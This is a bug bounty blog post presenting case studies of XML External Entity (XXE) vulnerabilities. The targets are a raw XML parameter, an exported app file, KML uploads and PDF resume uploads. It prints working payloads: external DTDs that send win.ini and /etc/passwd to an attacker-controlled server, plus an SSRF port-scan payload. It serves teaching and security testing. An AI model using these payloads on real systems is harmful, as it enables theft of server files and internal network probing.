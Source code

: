 ```yaml
---
layout: single
title: XXE Case Studies
date: 2021-07-26
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - XXE
  - Penetration Testing
---
```


As it has been some time since my last blog post, I decided I would set aside some time to write one now. The topic of this blog post is inspired by a bug I found earlier this morning on a bug bounty program.

## XML External Entity (XXE) Attacks
I have always been fascinated by XXE attacks, and in this blog, I will outline some of the checks I perform when bug bounty hunting to identify and exploit these vulnerabilities. 

While XXE vulnerabilities are rare, they are generally quite easy to exploit. Additionally, they almost always result in a high or critical severity. There are many blogs and resources that talk about what an XXE vulnerability is, so instead I will focus more on examples that I have seen. Unfortunately, I will not be able to share complete walkthroughs as many of these bugs are undisclosed.

## Case Study #1: strXML Parameter

When hunting bugs with Burp Suite, I utilize the extension [Burp Bounty]( https://github.com/wagiro/BurpBounty). This allows me to create custom passive and active profiles. One of the passive profiles I utilized a while back would look for XML in every HTTP request. Upon finding it, the extension would create an issue for me to investigate manually.

![](/assets/images/XXE/1.png)  

This alerted me to quite a fun parameter one day while bug bounty hunting. A recreation of the request is shown below.

![](/assets/images/XXE/2.png)  

That’s right, the `strXML` parameter simply took raw XML. Interestingly enough the bulk of it wasn’t even URL encoded! Not sure how this was a validly formatted HTTP request.
Sadly, I was only able to escalate this finding to an internal port scan via SSRF with a payload similar to the following:
```xml
strXML=<?xml version%3D"1.0" encoding%3D"ISO-8859-1"?>
<!DOCTYPE testingxxe [<!ENTITY xxe PUBLIC "xxe" "http://localhost:21/" >
]> 
    <data>
        <xxx>
            <xxx>194147</xxx>
        </xxx>
        <identity>&xxe;</identity>
    </data>

```
Then Burp Intruder was used to iterate through the top 1000 ports. The open ports returned a different content-length than closed ports.

## Case Study #2: XXE via Proprietary Filetype

I stumbled upon this next XXE completely by accident. The web site had functionality that allowed users to build “apps”. Apps could be exported to a propriety file type that I did not recognize. Upon running `strings` on one of these files I discovered it was a zip file. Upon unzipping the file, I was greeted by a beautiful site.

![](/assets/images/XXE/3.png)  

Next, I replaced the contents of one of the XML files with the following XXE payload.
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE cinzinga SYSTEM "http://poc.cinzinga.com/test.dtd">
<cinzinga>&e1;</cinzinga>
```

And the contents of `/test.dtd` hosted on my web server are shown below:
```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

Upon zipping the folder back up, and importing this app, I was greeted with the contents of `C:\Windows\win.ini` sent to my web server.

## Case Study #3: XXE via KML File
I have encountered a number of sites that take more obscure XML file types as input. Multiple times, I have achieved XXE via KML. KML is a type of XML that is specifically used for maps and geographic data.

To exploit these file uploads, I simply download [a sample KML file]( https://developers.google.com/kml/documentation/KML_Samples.kml) and append an XXE payload in the second line.

To exploit the one I identified today, I made use of a great tool developed by a close  [Tib3rius](https://twitter.com/0xTib3rius). The tool can be found [here]( https://github.com/WhiteOakSecurity/Dynamic-DTD).

This app is run with the following command:
```
flask run -p <port> -h <interface-ip>
```
And triggered with the corresponding payload:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>/malicious.dtd?ext=file:///etc/passwd"> %xxe;]>
```

This promptly resulted in the contents of `/etc/passwd` send to my web server.

![](/assets/images/XXE/4.png)  


## Case Study #4: XXE via PDF File

Thus far in my bug bounty career, I have exploited XXE via PDF upload twice. In both cases, the intended functionality was a Resume upload on a careers subdomain. I can only assume that some backend software was scanning the PDFs to extract key information. 

To generate these PDFs, I utilize [this]( https://github.com/StefanMichielse/generate_xxe_payloads) project on GitHub.

I utilize the following command to generate a XXE PDF payload template.
```
ruby oxml_xxe.rb --poc pdf -i 192.168.0.1:8000
```

![](/assets/images/XXE/5.png)  

Next, we can open up the output PDF in a text editor to get a better idea of where the payload is rendered. We can see that the XXE payload is inserted on line 27.
![](/assets/images/XXE/6.png)  

Personally, the PDF payload I utilize is shown below. I have edited the default payload slightly. 

![](/assets/images/XXE/7.png)  

The external dtd is the same as shown above in this blog.

```
<!ENTITY % p1 SYSTEM "file:///windows/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://poc.cinzinga.com/?x=%p1;'>">
%p2;
```

## Case Study #?: XXE via Excel File

While I have not yet obtained XXE via Word or Excel file, it is something I have a payload for and routinely check. There is a great blog [here](https://www.4armed.com/blog/exploiting-xxe-with-excel/) that outlines the steps to develop an Excel XXE payload.


## Conclusion
While this article was brief, I hope it served to highlight some XXE vulnerabilities that I have exploited in the wild. While the bug type is not common, I have reported approximately a dozen XXE vulnerabilities in my bug bounty career. This number certainly warrants adding XXE checks to your arsenal when assessing a web app’s security.





![Hits](https://hitcounter.pythonanywhere.com/count/tag.svg?url=https%3A%2F%2Fcinzinga.com%2FXXE-Case-Studies%2F)
  
  
